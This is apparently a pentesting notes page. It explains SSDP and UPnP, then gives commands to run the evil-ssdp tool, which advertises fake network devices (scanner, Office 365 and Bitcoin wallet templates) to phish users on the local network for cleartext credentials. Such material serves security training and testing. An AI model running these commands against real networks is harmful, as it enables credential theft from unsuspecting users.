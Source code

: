# ⭕ SSDP Spoofing

## <mark style="color:red;">SSDP</mark>

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## <mark style="color:red;">UPnP</mark>

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## <mark style="color:red;">Evil SSDP</mark>

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (33) (1) (1) (1) (1) (1).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (15) (1) (1).png>)

## <mark style="color:red;">Other templates</mark>

### <mark style="color:orange;">Office 365</mark>

```
python3 evil_ssdp.py eth0 -t office365
```

![](../../.gitbook/assets/image.png)

### <mark style="color:orange;">Bitcoin Wallet</mark>

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
